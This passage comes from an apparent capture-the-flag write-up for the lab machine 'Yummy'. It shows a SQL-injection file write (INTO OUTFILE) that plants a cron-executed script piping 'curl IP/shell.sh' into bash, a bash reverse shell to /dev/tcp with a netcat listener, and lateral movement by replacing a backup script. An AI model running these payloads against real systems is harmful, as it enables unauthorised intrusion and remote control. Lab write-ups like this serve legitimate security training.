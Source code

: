 ```bash
        /usr/bin/echo "Response is OK."
    fi
fi
[ -f dbstatus.json ] && /usr/bin/rm -f dbstatus.json
```

If the file `dbstatus.json` exists and does not conain the string "database is down" then it runs a command with `/bin/bash`, afterwards it deletes the JSON file. This script is ran every minute. The `latest_version` variable lists the contents of the scripts folder with a wildcard. This script will sort all scripts starting with `fixer-v` and executes the last matching script (tail). Since we can write files via the SQL injection vulnerability, we can get a reverse shell.

First we create a reverse shell script and run a Python web server.

```console
$ echo "#\!/bin/bash\nbash -i >& /dev/tcp/10.10.14.102/9001 0>&1" > shell.sh
$ chmod +x shell.sh
$ sudo python -m http.server 80
```

We create a small script that automates the exploitation. It first grabs our payload, writes it to `/data/scripts/fixer-v999` and then writes an empty string to `/data/scripts/dbstatus.json` in order to execute our payload.

```bash
ip="10.10.14.102"
token="<ADMIN_JWT_TOKEN>"

write_file() {
  curl -s -H "Cookie: X-AUTH-Token=$token" "http://yummy.htb/admindashboard?s=ABC&o=ASC;select+\"$1\"+INTO+OUTFILE+'$2';"
}

# write a file to request the reverse shell and execute it with bash
write_file "curl+$ip/shell.sh+|bash" "/data/scripts/fixer-v999"

# write an empty file to dbstatus.json
write_file "" "/data/scripts/dbstatus.json"
```

We start a netcat listener on port 9001, run the above script and after a minute we should have received a connection back to our machine.

```console
$ nc -nvlp 9001
mysql@yummy:/var/spool/cron$
```

# User
## Mysql to www-data
After getting a shell as the `mysql` we still have very limited access. We can move laterally to the `www-data` user since there is also a script (`app_backup.sh`) that runs every minute by this user. We are able to remove the backup file and replace it with the same reverse shell script.
